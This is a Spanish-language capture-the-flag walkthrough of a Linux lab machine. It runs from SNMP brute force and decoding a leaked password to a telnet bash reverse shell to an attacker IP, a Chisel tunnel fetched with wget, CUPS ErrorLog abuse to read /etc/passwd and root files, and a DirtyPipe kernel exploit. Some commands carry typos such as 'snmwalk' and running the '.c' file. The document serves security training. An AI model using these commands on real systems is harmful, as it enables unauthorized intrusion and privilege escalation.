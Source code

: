 ## Summary

Tags: #UDP #Chisel #PortForwarding #GCC #Telnet #Linux #UDP #SNMP #Chisel #CUPS #Nmap 

- IP -> 10.10.10.107
- Ports -> TCP (23), UDP (161)
- OS ->  Linux
- Services & Applications
    - 23 -> Telnet
    - 161 -> SNMP 


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts
```

```bash
❯ nmap -sCV -p23 ❮Target IP❯ -oN targeted
```
Solo encontramos el puerto 23 OPEN, por lo que decidimos escanear por UDP

```bash
❯ nmap -sU --top-ports 100 --open -T5 -v -n ❮Target IP❯     # Escaneo de puertos por UDP
```
Descubrimos el puerto 161 SNMP 

Ahora nos ponemos a explorar en ese puerto.
```bash
/usr/share/seclists/Discovery/SNMP/snmp-onesixtyone.txt     # Diccionario del snmp a usar para Fuerza Bruta
```

```bash
❯ onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp-onesixtyone.txt ❮IP❯     # Sirve para hacer Fuerza Bruta al snmp y encontrar los 'community strings'
```

```bash
❯ snmwalk -c public -v2c ❮IP❯                                                     # Sirve para poder inspeccionar el puerto SNMP

	# c = Community string, 'Public' es el mas comun
	# v2c = version

❯ snmwalk -c public -v2c ❮IP❯ 1                                                   # Colocar 1 significa que empezara desde la raiz '/' y asi poder enco0ntrar mas informacion acerca del protocolo, por default empieza desde el 2
```

* El primer comando en esta ocasion nos regresa un "HTB-PRINTER"
* El segundo nos devuelve mas informacion y ahi encontramos BITS en Hexadecimal 

```bash 
❯ echo '50 40 73 73 77 30 72 64 40 ...' | xargs | xxd -ps -r               # Nos convierte la cadena de Hex a 

	# xargs = Nos pone la cadena en una sola linea
	# xxd = Nos invierte el proceso del Hex
```
Nos regresa lo siguiente: **P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGW(8i** que es una passwd

## User

Ahora nos regresamos a Telnet y probamos con esa passwd

```bash 
❯ telnet <IP> 23                             # Iniciar sesion en Telnet en su puerto por default 23

	❯ ?                                     # Miramos el panel de ayuda, en ocasiones encontramos ‘exec system commands’ 
     ❯ exec id                               # Nos muestra el id en el que estamos
     ❯ exec ifconfig                         # Nos muestra las interfaces y su ip address
     ❯ exec bash -c “bash -i >& /dev/tcp/10.10.14.2/443 0>&1”     # Si podemos ejecutar comandos, podemos hacer una ReverShell de esta manera, IP del atacante y su puerto
```

```bash
❯ nc -nlvp 443                   # Nos ponemos en escucha para recibir la ReverShell
```
Ahora estamos adentro de la maquina 

* Le hacemos el tratamiento a la pseudoconsola
```bash
❯ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’         # Para remplazar el comando de 'Script' por si no lo acepta la consola

❯ Script /dev/null -c bash
❯ Ctrl + z
❯ stty raw -echo; fg
❯ reset xterm

# Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
❯ echo $SHELL                                            # Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
❯ export SHELL=bash o ❯ export SHELL=/bin/bash           # Hacemos que shell ahora valga bash
❯ export TERM=xterm                                      # Para poder hacer Ctrl +c y Ctrl + l (l=ele)

# Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
❯ stty size                                              # Miramos las dimensiones de la consola
❯ stty rows 51 columns 189                               # Modificamos las dimensiones de la consola Vim/Nano
```

Ahora podemos buscar la flag user.txt

```bash
❯ sudo -l                                                # Ver que permisos tenemos en el sudoers (l=ele)

	# (ALL : ALL) ALL
	# (root) NOPASSWD: /usr/bin/find -> Puede ejecutar un comando sin necesidad de password
```

```bash 
❯ find / -perm -4000 -ls 2>/dev/null               # Buscaremos por privilegios SUID, con ls = Miramos los privilegios y buscamos los de root
```

```bash
❯ which getcap                             # Para ver si esta instalado el Getcap y mirar las capabilities

❯ getcap -r / 2>/dev/null                  # Listamos las capabilities que existan desde la raiz de forma recursiva y buscamos el comando aqui GTFOBins [GTFOBins](https://gtfobins.github.io/)
```
Pero tampoco encontramos algo 

```bash
❯ netstat -nat                                    # Podemos ver los puertos abiertos internos 
```
Encopntramos el puerto 631

```bash
❯ curl http://127.0.0.1:631                       # Para ver si hay contenido en ese puerto 
```
Nos muestra contenido de una pagina web llamada '**CUPS 1.6.1'

Nos traeremos ese puerto a nuestra maquina de atacante con Chisel
* [Chisel](https://github.com/jpillora/chisel)
```bash
❯ git clone https://github.com/jpillora/chisel       # Nos descargamos el Chisel
```

Dentro de Chisel 
```bash
❯ go build -ldflags “-s -w” .                        # Nos ayudara a reducir el tamaño del compilado 
❯ upx Chisel                                         # Para reducir aun mas el tamaño
```

```bash
❯ python3 -m http.server 80                          # Nos montamos un servidor http 80 para poder pasar el Chisel a la maquina victima 
```

En la maquina victima nos dirigimos al dir **/tmp** ya que el contiene permisos de lectura y escritura. Ahi ejecutamos el siguiente comando
```bash
❯ wget http://10.10.14.4/chisel                      # Para poder cargar o descargar un archivo especifico desde una IP de atacante
❯ chmod +x chisel                                    # Le damos permisos de ejecucion a Chisel
```

```bash
❯ ./chisel server --reverse -p 1234          # Server 'Maquina de atacante'
❯ ./chisel client 10.10.14.4:1234 R:631:127.0.0.1:631 # Cliente 'Maquina victima'
```
Ahora podemos ingresar de forma local a nuestro **Localhost:631**, en donde podemos irar una web. 

```bash
❯ searchsploit cups                # Para buscar un exploit
```

Buscamos en Google
* [CUPS-Explot](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/multi/escalate/cups_root_file_read.rb)
Si filtramos por **exec**, podemos ver que es lo que ejecuta el exploit. Ecnontramos que podemos controlar el log de error

Ahora en la maquina victima hacemos lo siguiente:
```bash
❯ which cupsctl                                               # Para ver si existe ese binario
```

```bash
❯ cupsctl ErrorLog=/etc/passwd                                # Utilizando el binario, generaremos el error
❯ curl -s -X GET http://localhost:631/admin/log/error_log     # Miramos el log y nos muestra la ruta anterior
```

## Root

```bash
❯ cupsctl ErrorLog=/root/root.txt
❯ curl -s -X GET http://localhost:631/admin/log/error_log     # Miramos el log y nos muestra la ruta anterior y podremos ver la flag de root
```


---
#### Segunda forma de explotacion 

* [Dirty-Pipe-Arinerron](https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit)

```bash
❯ which gcc                                       

	# /usr/bin/gcc = El Dirty-Pipe nos ayudara a sobre-escribir el ''/etc/passwd' 
	# En la pagina de Arinerron nos vamos a 'exploit.c' despues le damos a RAW y copiamos el contenido en un archivo llamado 'priv.c' en la maquina victima en el dir '/tmp'

❯ gcc privesc.c -o privesc                       # Asi lo compilamos en la maquina victima
❯ ./privesc.c                                    # Ejecutamos el binario y nos convierte en root, ya que coloca a 'aaron' como usuario root y su passwd 'aaron'
❯ su root                                        # Cambiar a usuario root con el nombre aaron seteado
```

Ahora vamos por la flag de **root.txt**